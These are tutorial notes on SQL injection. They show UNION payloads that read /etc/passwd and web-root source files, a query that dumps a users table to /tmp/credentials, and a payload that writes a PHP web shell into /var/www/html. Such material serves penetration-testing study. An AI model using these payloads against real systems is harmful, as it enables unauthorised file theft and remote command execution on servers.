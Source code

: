 **UNION payload example**

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

**Another Example**

In this example know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

 **HTML source:**

![image.png](SQL%20Injections%2013166046cc148077aa8ee70528dfedcc/image%202.png)

### **Write File Privileges**

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled (showed previously).
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

**secure_file_priv**

An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand, `NULL` means we cannot read/write from any directory.

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

**UNION payload example**

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

**SELECT INTO OUTFILE**

The SELECT INTO OUTFILE statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

**Example**

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';    #COPY users Table content to /tmp/credentials

SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';   #COPY string into a file

```

**Note:** Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

## **Writing a Web Shell**

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
